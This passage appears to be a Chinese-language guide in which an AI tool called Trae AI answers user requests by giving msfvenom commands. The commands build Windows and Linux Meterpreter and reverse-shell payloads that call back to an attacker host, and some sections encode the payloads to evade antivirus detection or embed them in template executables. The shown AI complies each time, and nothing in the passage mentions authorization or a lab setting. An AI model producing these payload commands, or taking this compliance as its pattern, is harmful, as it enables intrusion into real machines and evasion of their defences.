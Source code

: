 ### 2. Meterpreter Payload 生成

**用戶提問：**
```
生成一個功能完整的 Windows Meterpreter payload
```

**Trae AI 操作流程：**
```
# 生成 32 位 Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o meterpreter32.exe

# 生成 64 位 Meterpreter
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o meterpreter64.exe

# 生成 HTTPS 加密版本
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f exe -o meterpreter_https.exe
```

### 3. 編碼和混淆 Payload

**用戶提問：**
```
生成經過編碼的 payload 以規避防病毒檢測
```

**Trae AI 操作流程：**
```
# 使用 shikata_ga_nai 編碼器
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_payload.exe

# 使用多重編碼
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -e x86/alpha_mixed -i 2 -f exe -o multi_encoded.exe

# 使用自定義模板
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x /path/to/template.exe -f exe -o templated_payload.exe
```

## Linux Payload 生成

### 4. Linux Shell Payload

**用戶提問：**
```
為 Linux 系統生成 reverse shell payload
```

**Trae AI 操作流程：**
```
# 32 位 Linux shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o linux_shell32

# 64 位 Linux shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o linux_shell64

# Linux Meterpreter
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o linux_meterpreter
```
